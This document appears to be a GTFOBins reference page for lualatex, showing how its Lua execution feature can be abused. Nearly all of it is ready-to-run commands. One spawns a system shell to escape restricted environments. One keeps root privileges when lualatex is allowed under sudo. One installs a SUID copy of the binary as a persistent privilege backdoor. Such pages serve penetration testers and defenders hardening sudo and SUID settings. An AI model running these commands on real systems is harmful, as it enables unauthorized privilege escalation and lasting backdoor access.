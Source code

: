 # GTFOBin: lualatex

This allows to execute `lua` code.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which lualatex) .

./lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
```